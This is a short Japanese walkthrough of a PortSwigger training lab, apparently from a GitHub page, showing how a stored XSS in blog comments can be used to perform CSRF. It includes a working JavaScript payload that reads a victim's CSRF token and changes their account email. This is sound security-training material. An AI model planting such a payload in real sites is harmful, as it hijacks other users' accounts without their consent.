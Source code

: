 # XSS を利用して CSRF を実行する

このラボには、ブログのコメント機能に保存された XSS の脆弱性が含まれています。

https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

- 1. ハッキングラボにアクセスします
- 2. 一般ユーザーでログインします
- 3. ログインページのソースから、メールアドレスの更新方法が確認できます

```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST"></form>
```

- 4. ホームページに移動し、ブログの以下のようにコメントをします

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open("get", "/my-account", true);
  req.send();
  function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open("post", "/my-account/change-email", true);
    changeReq.send("csrf=" + token + "&email=test@test.com");
  }
</script>
```

これでコメントを見た人はメールアドレスがtest@test.comに更新されるようになります
